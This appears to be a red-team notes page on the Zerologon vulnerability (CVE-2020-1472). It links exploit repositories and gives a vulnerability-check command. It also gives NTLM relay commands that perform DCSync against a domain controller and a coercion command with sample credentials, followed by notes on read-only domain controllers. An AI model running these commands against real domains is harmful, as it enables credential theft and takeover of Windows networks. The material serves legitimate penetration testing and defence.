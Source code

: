 ```yaml
---
description: CVE-2020-1472
---
```


# Zerologon

* [https://www.secura.com/uploads/whitepapers/Zerologon.pdf](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)
* [https://twitter.com/\_dirkjan/status/1306280566313156608](https://twitter.com/_dirkjan/status/1306280566313156608)

{% embed url="https://dl.packetstormsecurity.net/papers/general/Understanding_and_Exploiting_Zerologon.pdf" caption="[PDF] Understanding and Exploiting Zerologon (Lucideus)](https://dl.packetstormsecurity.net/papers/general/Understanding_and_Exploiting_Zerologon.pdf" %}

Check:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

```
$ python3 zerologon_tester.py DC01 10.10.13.38
```

Exploit:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
* [https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472](https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472)

Exploits above **will break the domain!** Use this technique by @dirkjanm to abuse Zerologon safely:

* [https://dirkjanm.io/a-different-way-of-abusing-zerologon/](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)

```
$ sudo ntlmrelayx.py -t dcsync://DC01.megacorp.local -smb2support
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC02.megacorp.local
```




## RODC Notes

Checking that a DC is a RODC (see if `WRITABLE` flag is present):

```
PS > nltest.exe /dsgetdc:megacorp.local
PS > nltest.exe /dsgetdc:megacorp.local /server:DC1
```

* [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/3a9ed16f-8014-45ae-80af-c0ecb06e2db9)
* [https://lists.samba.org/archive/samba-technical/2016-November/117016.html](https://lists.samba.org/archive/samba-technical/2016-November/117016.html)
* [https://github.com/gentilkiwi/mimikatz/blob/fe4e98405589e96ed6de5e05ce3c872f8108c0a0/mimikatz/modules/kuhl_m_lsadump.c#L2467](https://github.com/gentilkiwi/mimikatz/blob/fe4e98405589e96ed6de5e05ce3c872f8108c0a0/mimikatz/modules/kuhl_m_lsadump.c#L2467)
* [https://social.technet.microsoft.com/Forums/Lync/en-US/3f29f03e-9d9b-43ba-b628-3f0afc25352e/user-amp-computer-authentication-through-rodc?forum=winserverDS](https://social.technet.microsoft.com/Forums/Lync/en-US/3f29f03e-9d9b-43ba-b628-3f0afc25352e/user-amp-computer-authentication-through-rodc?forum=winserverDS)

> "When a user authenticates to an RODC a check is performed to see if the password is cached. If the password is cached, the RODC will authenticate the user account locally. If the user’s password is not cached, then the RODC forwards the authentication request to a writable Domain Controller which in turn authenticates the account and passes the authenticated request back to the RODC. Once the user account is authenticated, the RODC makes another request for the replication of the user’s password in a unidirectional replication providing the account has been configured to allow replication. In order to allow the user password to be cached on RODC, you could set up it by configuring the Password Replication Policy."

So when authenticating at a RODC and Password Replication Policy rejects caching the machine password, then `STATUS_NO_TRUST_SAM_ACCOUNT` may be met.

